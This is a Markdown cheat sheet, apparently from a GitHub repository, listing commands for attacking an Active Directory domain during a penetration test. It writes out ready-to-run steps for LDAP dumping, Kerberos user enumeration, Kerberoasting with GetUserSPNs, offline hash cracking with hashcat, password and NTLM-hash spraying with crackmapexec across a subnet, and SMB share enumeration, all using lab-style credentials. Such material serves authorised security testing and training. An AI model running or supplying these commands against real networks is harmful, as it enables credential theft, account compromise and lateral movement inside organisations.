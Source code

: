 
## LdapDomainDump Enumeration (Optional)

```sh
sudo ldapdomaindump ldaps://10.10.10.1 -u 'test.local\fcastle\' -p Password1
```
If the command above doesnt work due to some error about SSL error or handshake error try the command below
```sh
sudo ldapdomaindump ldap://10.10.10.1 -u 'test.local\fcastle\' -p Password1
```

## Kerberoasting
### 1. Enumerate Kerberos users (if no creds)
```sh
kerbrute userenum -d test.local --dc 10.10.10.1 userlist.txt -o kerb-results.txt
```

### 2. Get user SPNs (if domain creds available)
```sh
python GetUserSPNs.py test.local/fcastle:Password1 -dc-ip 10.10.10.1 -request
```

### 3. Crack the Kerberos hash
```sh
hashcat -m 13100 SPNs-hash.txt /usr/share/wordlists/rockyou.txt
```
---

## Password/Hash Spraying
This step is crucial as it will save a lot of your time in your pentest engagements

### 1. Spray passwords over SMB
```sh
crackmapexec smb 10.10.10.0/24 -d test.local -u fcastle -p Password1
```

### 2. Spray hashes(if we have them) instead of passwords
```sh
crackmapexec smb 10.10.10.0/24 -d test.local -u administrator -H [NTLM-hash]
```
---

## SMB Enumeration
### 1. List available SMB shares
```sh
smbclient -L <TARGET_IP> -U test.local/fcastle%Password1
```

### 2. Check accessible shares
```sh
smbmap -u fcastle -p Password1 -d . -H <TARGET_IP>
```
